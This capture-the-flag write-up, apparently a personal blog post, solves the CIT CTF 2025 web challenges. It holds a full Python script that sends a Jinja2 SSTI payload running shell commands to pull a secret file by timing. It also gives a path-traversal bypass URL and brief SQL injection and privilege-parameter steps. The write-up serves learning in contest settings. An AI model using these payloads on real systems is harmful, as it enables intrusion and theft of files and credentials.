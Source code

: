 ```yaml
---
title: "[CIT CTF 2025] Solving all Web challenges"
published: true
date: "2025-04-28"
excerpt: "Complete writeup for all web challenges from CIT CTF 2025, including SSTI exploitation, LFI bypasses, git repository enumeration, and SQL injection techniques."
tags: ["CTF", "web security", "SSTI", "LFI", "SQL injection", "git enumeration", "flask"]
author: "MindPatch"
---
```


![MindPatch](https://miro.medium.com/v2/resize:fill:30:30/1*V9gl5H8tSo2wXoUoRyNaDg.jpeg)

# [CIT CTF 2025] Solving all Web challenges

Hello, I joined the CTF for fun during the weekend.

I focused on web challenges and completed all challenges in this category. The challenges were straightforward and made for a fun weekend.

## Mr. Chatbot

![Mr. Chatbot Challenge](https://miro.medium.com/v2/resize:fit:952/1*kvW3lucpnNq6fTtQ9Y_BBA.png)

The application shows a welcome page asking for your name, then puts you in a chat with a bot. The goal was to get the Flag from the bot. This wasn't an LLM attack — responses came from JavaScript files.

![Chat Interface](https://miro.medium.com/v2/resize:fit:952/1*RXw88Zwtk6JNglc_pSVzTQ.png)

After entering a name, you get a session value that can be decoded with flask-unsign:

```bash
$ flask-unsign --unsign --cookie "eyJhZG1pbiI6IjAiLCJuYW1lIjoiaGFja2VyIn0.aA8u-Q.GRwPzCvfn4k_zUDDzo_XL83fKJk" --secret="9f3IC3uj9^zZ"
[*] Session decodes to: {'admin': '0', 'name': 'hacker'}
```

![Session Decoding](https://miro.medium.com/v2/resize:fit:952/1*lZwyPZ9_OqenlmQWuCAssg.png)

After trying injections with no luck, I did parameter fuzzing and found the `admin=1` parameter. This revealed new session data:

![Admin Parameter](https://miro.medium.com/v2/resize:fit:667/1*1TuqK6xE0XGYJz-DQD50oQ.png)

```bash
$ flask-unsign --unsign --cookie ".eJwdzE0LgjAAxvHvsksEHVoJUdEpe7M2C2S63cyJTacIFprRd--x2397ftuHxLo0FVkRSiakissUmT6TOm6aVo_G63GGO43tZTSmy0xM5XvZyoj3enarzkFjzqF-3ENRSCNz1heL6PiwzHaO7LMaXfJ956hwn6QHUVzQfqDQrL3SbjpYTmFzL0ndguKc822NfUe5Haz2omPWMfpvGJsrtAoEzMmBNwpOuXZ4M4d1fAEb_v-be4b1ftBsyPcHZ6hN0g.aAwwvA.ouiTuVJ131_fQmyqYgewMTM-ZlM" --secret="9f3IC3uj9^zZ"
[*] Session decodes to: {'admin': '1', 'name': "hacker", 'uid': 'L2V0Yy9wYXNzd2QnKTsiKWdhbWVkYiYjMzk7XHhlMlx4YzgpXHhmNFx4ZWFceGVkLFx4OTZceGMwP1x0XHhlN1x4YjJceDk1XHhjNCpceGE1Nlx4OTdJXHgxM1x4OTdceDljZ1x4ZTVceGI4XHhiZlx4ZDlceGE3XHg4OVx4OWJceDk3JiMzOTs='}
```

As you see there's a new variable (**UID**), I tried doing some injections like SSTI and got it :)

![SSTI Success](https://miro.medium.com/v2/resize:fit:667/1*GdcyUtROwNfXlDF7_ViIVw.png)

Well The idea now to get **secrets.txt** file blindly, I wrote a script that uses **head** command if char is valid then sleep 5 seconds

```python
import requests
import string
import time

CHARS = string.printable
FOUND = ""
POSITION = len(FOUND) + 1

def make_payload(position, the_char):
    # Use a simple command to compare single character
    cmd = f'[ "$(head -c {position} secrets.txt | tail -c 1)" = "{the_char}" ] && sleep 5'
    payload = "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('"+cmd+"').read() }}"
    return payload

def exploit():
    global FOUND, POSITION
    
    # Continue until we've found enough characters or need to stop
    max_positions = 100  # Set a reasonable limit
    consecutive_spaces = 0  # Track consecutive spaces to detect end of file
    
    while POSITION <= max_positions and consecutive_spaces < 5:  # Stop after 5 consecutive spaces
        found_char = False
        
        for ch in CHARS:
            if ch in ['"', '\\', '`', '$', '&', '|', ';', '\n', '\r']:  # Skip problematic chars
                continue
                
            print(f"Position {POSITION}, trying character: {ch}")
            start_time = time.time()
            
            try:
                r = requests.post(
                    "http://23.179.17.40:58005/", 
                    allow_redirects=False, 
                    data={"name": make_payload(POSITION, ch), "admin": "1"},
                    proxies={"http": "http://localhost:8080"},
                    timeout=10
                )
                
                elapsed_time = time.time() - start_time
                
                if elapsed_time >= 4.5:  # Slightly lower threshold to account for network variability
                    FOUND += ch
                    found_char = True
                    
                    # Reset consecutive spaces counter if we found a non-space
                    if ch != ' ':
                        consecutive_spaces = 0
                    else:
                        consecutive_spaces += 1
                        
                    print(f"Found character at position {POSITION}: {ch}")
                    print(f"Current secret: {FOUND}")
                    break
                    
            except requests.exceptions.Timeout:
                # If timeout occurs, the character matched
                FOUND += ch
                found_char = True
                
                # Reset consecutive spaces counter if we found a non-space
                if ch != ' ':
                    consecutive_spaces = 0
                else:
                    consecutive_spaces += 1
                    
                print(f"Found character at position {POSITION} (timeout): {ch}")
                print(f"Current secret: {FOUND}")
                break
                
            except Exception as e:
                print(f"Error with character {ch} at position {POSITION}: {e}")
        
        if not found_char:
            FOUND += " "
            consecutive_spaces += 1
            print(f"No character found at position {POSITION}, adding space and continuing")
            print(f"Current secret: {FOUND}")
            print(f"Consecutive spaces: {consecutive_spaces}")
        
        POSITION += 1
        
        time.sleep(1)

def main():
    print(f"Starting blind exploitation from existing credentials: {FOUND}")
    print(f"Starting at position: {POSITION}")
    exploit()
    print(f"Final extracted secret: {FOUND}")

if __name__ == "__main__":
    main()
```

And after running it got the flag :)

```bash
$ python exp.py
admin:9f3IC3uj9^zZ  CIT{18a7fbedb4f3548f}
```

## How I Parsed your JSON

This challenge reads JSON files locally and provides a SQL-like syntax to extract data. You can add `*` to the query to extract all columns.

The useful finding was converting the `container` parameter into a list with `?container[]=`. This showed a debug page with source code.

![Debug Page](https://miro.medium.com/v2/resize:fit:667/1*HpShJFda_vKXHxW6UGpBfA.png)

The code simply removes `../` and file extensions from the container name to prevent LFI. This can be bypassed with `..//file.txt.txt`.

```
/select?record=*&container=../../../..//app//secrets.txt.txt
```

![LFI Bypass Result](https://miro.medium.com/v2/resize:fit:667/1*KhKFV2iS03LRGP23UU74KA.png)

## Commit & Order: Version Control Unit

This challenge was straightforward. I discovered an exposed `/.git` directory on the server and dumped the repository using the git-dump tool.

After examining the commit history, I found older commits that contained the source code with hardcoded admin credentials. This is a common security mistake where developers remove sensitive information in later commits but forget that the data remains accessible in the Git history.

The steps to solve were:

1. Identify the exposed Git repository at `/.git`
2. Download the repository using git-dump
3. Review commit history with `git log`
4. Check older commits with `git show [commit-hash]`
5. Find the source code file containing the hardcoded admin password in admin.php
6. Use the credentials to access the admin panel and retrieve the flag

## Breaking Authentication

This challenge featured a straightforward SQL injection vulnerability in the login page.

Steps to solve:

1. Accessed the database and dumped its contents
2. Found the flag stored in the 'secrets' table

Classic example of an unsanitized input field allowing SQL injection to compromise a web application's authentication mechanism.

## Keeping Up with the Credentials

This challenge required first solving another challenge to obtain valid username and password credentials.

Steps to solve:

1. Used credentials obtained from the previous challenge to log in
2. After login, got redirected to `/debug.php` which was an empty page
3. Noticed that accessing `/admin.php` directly would automatically log you out
4. Modified the login request to include the parameter `admin=true` using POST method
5. Successfully redirected to `/admin.php` with admin privileges
6. Retrieved the flag from the admin page

Pretty Simple :v